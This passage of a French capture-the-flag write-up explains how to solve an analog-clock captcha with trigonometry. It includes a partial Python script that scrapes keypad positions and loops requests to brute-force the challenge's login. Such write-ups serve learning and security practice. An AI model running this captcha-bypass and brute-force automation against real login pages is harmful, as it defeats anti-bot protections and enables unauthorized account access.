 D'après la formule `tan(A) = diffY / diffX` on en déduit que l'angle B vaut:

```bash
B = pi / 2 - arctan(diffY / diffX)
```
On répète cette opération pour chaque quart du cadran et on finit par obtenir l'équation de l'angle parcouru par l'aiguille.
Une fois qu'on a obtenu l'angle en Radian, on la convertit à degré et on utilise ces fonctions pour obtenir les valeur en heure ou en minute:

```python
findHour = lambda x: int(x // 30)

findMin = lambda x: int(x / 6)
```

## Bruteforce

Une fois qu'on a obtenue les valeurs sous le format `hh:mm` le bruteforce nécessite seulement un peu de parsing (à l'arrache dans mon cas lmao):

```python
from readClock import findClockTime
import requests
import base64
import re

IDs = {}

def buildIDs(rep):
    matchs = re.findall(r'<div data-pos="\d">\d</div></a>', rep)

    for match in matchs:
        IDs[match[18]] = match[15]

def fromDateToId(date):
    date = date.replace(":","")
    ret = list()

    for digit in date:
        pos = IDs[digit]
        ret.append(str(pos))
    
    ret = "".join(ret)
    return ret

def findCaptcha(rep):
    captcha = re.search(r'<img class="captcha-image" src="(.*)" alt="captcha">', rep).groups(1)[0]
    captcha = "http://passichronophage.chall.malicecyber.com/" + captcha
    
    with open("sample.png", "wb") as f:
        img = requests.get(captcha)
        f.write(img.content)

if __name__ == "__main__":

    s = requests.Session()

    for i in range (100000):
        rep = s.get("http://passichronophage.chall.malicecyber.com/index.php").text

        buildIDs(rep)

        findCaptcha(rep)

        ret = findClockTime("sample.png")
```